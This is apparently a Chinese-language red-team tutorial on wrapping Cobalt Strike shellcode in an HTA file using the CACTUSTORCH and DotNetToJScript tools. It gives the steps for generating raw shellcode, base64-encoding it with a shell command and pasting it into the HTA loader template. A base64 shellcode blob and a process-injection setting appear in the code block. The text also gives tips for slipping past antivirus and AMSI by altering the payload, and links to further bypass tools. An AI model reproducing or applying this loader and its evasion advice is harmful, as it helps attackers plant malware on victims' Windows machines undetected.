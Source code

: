 # 0x00 简介

在Windows中我们的马还可以是多种形势比如`JavaScript`、`VBScript`、`hta` ,因此出现一个工具DotNetToJScript
它可以利用这些脚本文件来加载.NET 然后执行我们的文件。

贴心的大佬们已经给大家准备好了 https://github.com/mdsecactivebreach/CACTUSTORCH
上面有各种脚本的利用方式,还有支持 `Cobalt Strike` 的cna文件，但是现在直接引入会被微软的AMSI拦截,推特上有很多大佬的bypass方法大家可以关注一下。

当然它只是一种思路你直接使用AV肯定把你拦截。


# 0x01 HTA

前面我们讲过`Cobalt Strike` 本身自己也支持生成HTA,所以这里我依旧使用HTA了。

我们需要用到的就是上文的链接的文件 https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.hta 其实操作方法已经在里面写好了，还是简单的演示一下。


>Attacks > Packages > Payload Generator

生成一个raw 的shell code

![Cobalt Strike ](./img/2.3.1.png)

然后用 `cat payload.bin | base64 -w 0` 转成 base64

```
' Replace with binary name that you want to inject into. This can be anything that exists both in SYSWOW64 and SYSTEM32

Dim binary : binary = "rundll32.exe"

' Base64 encoded 32 bit shellcode
Dim code : code = "TVroAAAAAFtSRVWJ5YHDcoAAAP/TicNXaAQAAABQ/9Bo8LWiVmgFAAAAUP/TAAAAAAAAAAAAAAAAAAAA8AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAACf0hwW27NyRduzckXbs3JFZvzkRdqzckXF4fZF8rNyRcXh50XIs3JFxeHxRVqzckX8dQlF1LNyRduzc0UGs3JFxeH7RWKzckXF4eBF2rNyRcXh40Xas3JFUmljaNuzckUAAAAAAAAA"

```

注释已经写的很清楚了,我们也只需要替换这2处，建议不要用rundll32.exe了 这个某60直接秒了,当然是杀的这个code,所以只需要简单的变化它就认不出来了。

于此同类的还有 

https://github.com/mdsecactivebreach/SharpShooter 
https://github.com/ridter/AMSI_bypass


# 0x02 文末



### 本文如有错误，请及时提醒，以免误导他人


